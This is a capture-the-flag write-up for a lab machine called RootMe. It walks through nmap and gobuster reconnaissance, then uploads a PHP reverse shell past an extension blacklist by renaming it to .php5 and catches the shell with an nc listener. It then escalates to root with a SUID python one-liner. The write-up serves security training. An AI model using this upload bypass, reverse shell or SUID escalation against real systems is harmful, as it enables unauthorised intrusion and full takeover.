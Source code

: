 # RootMe writeup

## Task 2: Reconnaissance

> Scan the machine, how many ports are open?

A quick `nmap` scan shows 2 ports: 22 and 80

```nmap
# Nmap 7.91 scan initiated Tue May 25 17:24:13 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.157.191
Nmap scan report for box.ip (10.10.157.191)
Host is up, received syn-ack (0.30s latency).
Scanned at 2021-05-25 17:24:13 +07 for 18s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 25 17:24:31 2021 -- 1 IP address (1 host up) scanned in 18.96 seconds
```

> What version of Apache is running?

`2.4.29`, as shown in the `nmap` result

> What service is running on port 22?

SSH

> Find directories on the web server using the GoBuster tool.

```sh
$ gobuster dir -u 'http://box.ip/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -r -o root
/uploads              (Status: 200) [Size: 737]
/css                  (Status: 200) [Size: 1119]
/js                   (Status: 200) [Size: 952]
/panel                (Status: 200) [Size: 732]
```

> What is the hidden directory?

`/panel` is the hidden directory.

## Task 3: Getting a shell

If you check `index.php` at the root page, you'll find that it's a PHP application, so here we'll try uploading [pentestmonkey's PHP reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) as `rev.php`...

![PHP upload error message](php-not-allowed.png)

... which gives us an error message I'm guessing means "PHP not allowed", so there's some kind of black-listing in place. Since `PHP` is blacklisted, I tried renaming the file to `rev.php5` (note the different file extension)...

![.php5 upload success](upload-success.png)

... and found that `.php5` is allowed! Remember that we also had the `/uploads` directory from the previous `gobuster` scan. Checking it, we have our reverse shell.

![/uploads](uploads.png)

(You can also see other file names I tried that got uploaded but didn't give a shell)

With a listener set up, clicking on `rev.php5` gives us a shell!.

```sh
$ nc -lnvp 1337
Connection from 10.10.157.191:57040
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:45:54 up 25 min,  0 users,  load average: 0.00, 0.03, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can find `user.txt` in `/var/www`

```sh
bash-4.4$ cd /var/www
bash-4.4$ ls
html  user.txt
bash-4.4$ cat user.txt
THM{REDACTED}
```

## Task 4: Privilege Escalation

> Search for files with SUID permission, which file is weird?

We can find SUID files with `find`

```
bash-4.4$ find / -perm /4000 2>/dev/null
...[SNIP]...
/usr/bin/python
...[SNIP]...
```

If you check with your own linux system, you should find that `python` should *not* have the SUID bit set.

> Find a form to escalate your privileges.

You can find how to abuse `python` with the SUID bit set on [gtfobins](https://gtfobins.github.io/gtfobins/python/#shell)

```sh
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

As usual, `root.txt` can be found in `/root`

```
# cat /root/root.txt
THM{REDACTED}
```
